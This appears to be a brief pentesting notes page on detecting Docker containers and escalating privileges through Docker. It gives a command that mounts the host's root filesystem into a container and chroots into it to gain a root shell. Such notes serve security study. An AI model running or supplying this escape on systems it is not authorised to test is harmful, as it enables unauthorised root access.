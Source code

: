 # Docker

### Checking for Docker Containers&#x20;

#### 1>Checking for internal network may give signs of a docker container

`$ ip addr`

#### `2>ID command might tell`

![](<../.gitbook/assets/image (8).png>)

### `Exploitation`

#### `Check for the images`

![](<../.gitbook/assets/image (6).png>)

#### `Replace the image`

`docker run -v /:/mnt --rm -it privesc chroot /mnt sh`

![](<../.gitbook/assets/image (10).png>)

